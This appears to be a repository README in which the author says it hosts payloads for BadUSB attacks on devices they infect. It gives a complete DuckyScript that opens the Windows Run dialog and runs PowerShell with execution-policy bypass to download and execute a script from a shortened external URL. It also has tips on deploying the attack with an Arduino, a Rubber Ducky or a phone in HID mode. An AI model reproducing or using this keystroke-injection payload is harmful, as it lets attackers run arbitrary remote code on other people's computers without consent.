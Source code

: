 # badusb-payload
Move along, i use this simply to host my payload for my badusb attacks. ^^
That means it's most likely very messy code that which has the goal to do my bidding on devices i infect.

To run my code i use this DUCKY script:
```
DELAY 500
GUI r
DELAY 100
STRING powershell -Exec Bypass "iex ((New-Object System.Net.WebClient).DownloadString('https://3.ly/ao519'))"
ENTER
```
The link is shortened so the ducky doesn't have to type such long of a string.

# HOW this works:
You may use an arduino, a hak5 rubberducky stick OR, if you get lucky, like this humble shigal here, have a phone that supports a kali nethunter kernel which can put your phone into HID mode to do all kinds of funny shenanigans. It then acts as a keyboard and types in what you wish. In my case, it opens the RUN dialogue with win+r, waits 100 milliseconds and executes my powershell payload from the url. Done!

# Arduino Recommendations:
I recommend a DigiStump Digispark, but be careful with it. Always make sure not to kill the bootloader. You have to disconnect it, start the code upload, give it five seconds, plug it in and then the arduino will upload it. It will run your own payload on your own machine, but if you want to keep the arduino intact, please don't be as dumdum as me. Keep it inside until it is fully flashed.
